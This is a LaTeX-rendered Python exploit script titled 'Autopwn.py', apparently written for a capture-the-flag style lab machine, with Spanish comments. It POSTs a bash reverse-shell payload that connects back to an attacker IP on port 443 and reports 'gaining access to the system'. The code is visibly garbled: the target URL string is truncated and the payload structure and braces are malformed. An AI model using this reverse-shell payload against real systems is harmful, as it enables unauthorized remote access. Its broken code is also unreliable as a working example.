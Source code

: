 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\hypertarget{autopwn.py}{%
\subsection*{Autopwn.py}\label{autopwn.py}}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ threading}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://10.10.10.165/.}\SpecialCharTok{%
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    data_post }\OperatorTok{=}\NormalTok{ \{}
\NormalTok{        b}\StringTok{'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.post(main_url, data}\OperatorTok{=}\NormalTok{data_post)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest, args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Acceso"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Ganando acceso al sistema"}\NormalTok{)}

}
\end{Highlighting}
\end{Shaded}
\end{document}
